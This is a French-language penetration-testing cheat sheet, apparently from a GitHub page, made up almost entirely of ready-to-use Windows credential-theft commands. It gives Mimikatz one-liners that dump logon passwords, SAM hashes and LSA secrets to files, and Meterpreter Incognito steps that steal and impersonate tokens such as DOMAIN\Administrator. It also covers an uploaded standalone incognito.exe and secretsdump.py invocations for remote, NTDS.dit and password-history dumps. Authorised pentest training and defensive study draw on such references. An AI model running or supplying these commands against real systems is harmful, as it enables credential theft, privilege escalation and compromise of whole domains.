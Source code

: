 #### 🚀 Mimikatz One-liner (Non-interactif)
```cmd
# Dump passwords en une commande
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > passwords.txt

# Dump SAM en une commande  
mimikatz.exe "privilege::debug" "lsadump::sam" "exit" > sam_dump.txt

# Dump complet
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::secrets" "exit" > full_dump.txt
```

### Incognito

#### 🎯 Via Meterpreter (Intégré - Méthode principale)
| Étape | Commande | Description |
|-------|----------|-------------|
| **1. Charger Incognito** | `load incognito` | Extension intégrée à Meterpreter |
| **2. Lister tokens utilisateurs** | `list_tokens -u` | Tokens utilisateurs disponibles |
| **3. Lister tokens groupes** | `list_tokens -g` | Tokens de groupes disponibles |
| **4. Impersonner token** | `impersonate_token DOMAIN\\Administrator` | Impersonation |
| **5. Vérifier identité** | `getuid` | Confirmer impersonation |
| **6. Voler token processus** | `steal_token [PID]` | Voler token d'un processus |
| **7. Retour token original** | `rev2self` | Retourner au token original |

#### 💻 Incognito Standalone (Rare, principalement intégré)
```cmd
# Upload de l'outil standalone (si disponible)
upload /path/to/incognito.exe C:\\temp\\incognito.exe

# Exécution via shell Meterpreter
shell
cd C:\\temp

# Utilisation standalone (syntaxe similaire)
incognito.exe list_tokens -u
incognito.exe execute -c "DOMAIN\\Administrator" cmd.exe
```

### Secretsdump.py (Impacket) - Externe uniquement

#### 🌐 Utilisation distante (depuis Kali)
| Commande | Description |
|----------|-------------|
| `secretsdump.py domain/user:pass@target` | Dump distant avec credentials |
| `secretsdump.py -hashes :ntlmhash domain/user@target` | Avec hash NTLM |
| `secretsdump.py -sam sam.hive -system system.hive LOCAL` | Dump hors ligne |
| `secretsdump.py -ntds ntds.dit -system system.hive LOCAL` | Dump Active Directory |
| `secretsdump.py -just-dc domain/user:pass@target` | Domain Controller seulement |
| `secretsdump.py -history domain/user:pass@target` | Inclure historique passwords |
